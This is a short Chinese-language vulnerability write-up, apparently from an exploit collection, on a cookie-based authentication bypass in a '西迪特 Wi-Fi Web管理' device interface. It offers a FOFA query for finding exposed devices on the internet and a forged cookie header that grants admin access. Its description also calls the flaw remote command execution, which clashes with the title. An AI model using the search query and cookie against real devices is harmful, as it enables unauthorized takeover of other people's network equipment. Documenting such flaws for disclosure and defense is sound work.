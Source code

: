 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## FOFA

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](./images/202205191839372.png)

添加Cookie，即可登录后台

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![image-20220519184113756](./images/202205191841849.png)
